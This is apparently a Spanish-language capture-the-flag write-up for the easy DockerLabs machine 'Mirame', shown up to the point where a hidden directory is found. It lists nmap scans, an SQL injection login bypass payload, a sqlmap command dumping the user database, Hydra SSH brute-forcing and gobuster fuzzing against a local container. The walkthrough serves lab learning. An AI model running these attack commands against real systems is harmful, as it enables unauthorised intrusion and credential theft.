






# 🧠 **Informe de Pentesting – Máquina: Mirame**

### 💡 **Dificultad:** Fácil

### 🧩 **Plataforma:** DockerLabs

---


---

# ⚙️ **Despliegue de la máquina**

Se descarga el archivo comprimido de la máquina vulnerable y se despliega el contenedor Docker utilizando el script proporcionado por el laboratorio:

```bash
unzip backend.zip
sudo bash auto_deploy.sh mirame.tar
```


Primero se comprueba si se tiene conexiòn con el objetivo

```bash
ping -c4 172.17.0.3
```


Se comprueba los puertos que estan activos en este caso los puertos identificados son:

22 ssh
80 http

```bash
sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3
```

A continuacion verificamos los servicios y las verciones que esta corriendo y verificar si existe alguna mala practica o vulnerabilidad

```bash
sudo nmap -sCV -p22,80 172.17.0.3
```


Sabemos que el pueto 80 esta abierto entonces entramos a ver la pagina que esta corriendo ya que el puerto 80 esta corriendo un servico http



Nos muestra una pagina login pruebo credenciales por defecto y no tengo acceso
pero pruebo una inyecciòn basica msql y logro obtener acceso

```bash
admin' OR '1'='1' -- -
```


Tambien al poner una simple ' nos da un error que nos muestra que el formulario es vulnerable a inyeccòn msql
Con burtsuit intercepto la peticòn del formulario cuando mando la informaciòn y lo guardo en un .req yo lo nombre (petici.req) para usarlo con la herramienta sqlmap 
Recordar que esta herramienta en algunos caso no esta permito en algunas cetificaiònes

```bash
sqlmap -r petici.req --level=5 --risk=3 --dump 
```







Al terminar nos muestra una tabla con usuarios y contraseña

Se realizo un fuzzin pero no se encontro algun vector de ataque 


Puse los uaurios y contraseñas en dos .txt para usarlo con hydra y ver si es correcto alguna credencial para acceder al SSH ya que lo vimos abierto su puerto 
Pero no se tuvo exito

```bash
hydra -L user.txt -p password.txt ssh://172.17.0.2    
```

Use ahora el .txt para realizar fuzzing

```bash
gobuster dir -u http://172.17.0.2/ -w password.txt -x .env,.php,.bak,.old,.zip,.txt -b 403,404 --exclude-length 329
```

```bash
http://172.17.0.2/directoriotravieso/
